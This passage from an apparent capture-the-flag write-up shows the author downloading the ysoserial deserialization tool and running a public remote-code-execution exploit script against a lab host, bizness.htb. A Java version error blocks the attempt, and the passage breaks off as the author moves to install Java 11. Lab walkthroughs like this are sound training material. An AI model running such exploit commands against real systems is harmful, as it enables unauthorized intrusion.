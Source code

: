     Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/29955458/bb6518d9-ffb7-4437-8b6f-db3659467c5c?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20240520%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20240520T195538Z&X-Amz-Expires=300&X-Amz-Signature=1b5772c46ef678b30324d507e19daa96b50ee00e70c3b0b26085278bf93446ba&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=29955458&response-content-disposition=attachment%3B%20filename%3Dysoserial-all.jar&response-content-type=application%2Foctet-stream [following]
    --2024-05-20 15:55:42--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/29955458/bb6518d9-ffb7-4437-8b6f-db3659467c5c?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20240520%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20240520T195538Z&X-Amz-Expires=300&X-Amz-Signature=1b5772c46ef678b30324d507e19daa96b50ee00e70c3b0b26085278bf93446ba&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=29955458&response-content-disposition=attachment%3B%20filename%3Dysoserial-all.jar&response-content-type=application%2Foctet-stream
    Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.111.133, ...
    Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 59525376 (57M) [application/octet-stream]
    Saving to: ‘ysoserial-all.jar’

    ysoserial-all.jar          100%[=====================================>]  56.77M  82.7MB/s    in 0.7s    

    2024-05-20 15:55:42 (82.7 MB/s) - ‘ysoserial-all.jar’ saved [59525376/59525376]



If I run this on my system, I get this failure:



    oxdf@hacky$ python exploit.py https://bizness.htb rce id
    Error while generating or serializing payload
    java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x6fa4fbe3) canno
    t access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because mo
    dule java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x6fa4fbe3 
            at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
            at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
            at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
                                                        
            Command didn't executed, please make sure you have java binary v11
            this exploit tested on this env
            openjdk version "11.0.17" 2022-10-18
            OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
            OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing) 



The exploit author is nice enough to say what is wrong - I'm running the
wrong version of Java.

I'll grab a copy of Java 11
[here](https://www.oracle.com/java/technologies/javase/jdk11-archive-downloads.md)
and install it, and use `update-alternatives` to set it as my active
Java:

